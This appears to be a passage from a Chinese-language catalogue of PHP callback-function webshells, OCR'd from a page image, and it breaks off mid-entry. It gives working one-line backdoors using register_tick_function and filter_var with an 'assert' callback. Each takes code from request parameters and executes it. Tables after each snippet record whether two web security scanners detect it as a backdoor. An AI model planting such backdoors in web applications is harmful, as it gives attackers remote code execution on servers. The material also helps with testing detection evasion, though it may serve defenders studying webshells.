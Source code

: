 

#### register_tick_function()

```php
register_tick_function ( callable $function [, mixed $arg [, mixed $... ]] ) : bool
```

注册在调用记号时要执行的给定函数。

```php
<?php
    $e = $_REQUEST['e'];
    declare(ticks=1);
    register_tick_function ($e, $_REQUEST['x']);
?>
    #上面程序中“declare(ticks=1);”代表，每执行一条低级语句，就触发register_tick_function中注册的函数
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |

#### filter_var()

```php
filter_var(variable, filter, options)
```

filter_var() 函数通过指定的过滤器过滤变量。

| 参数     | 描述                                                      |
| :------- | :-------------------------------------------------------- |
| variable | 必需。规定要过滤的变量。                                  |
| filter   | 可选。规定要使用的过滤器的 ID。                           |
| options  | 规定包含标志/选项的数组。检查每个过滤器可能的标志和选项。 |



```php
<?php
    filter_var($_REQUEST['x'], FILTER_CALLBACK, array('options' => 'assert'));
?>
```



| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### filter_var_array()

```php
filter_var_array(array, args)
```
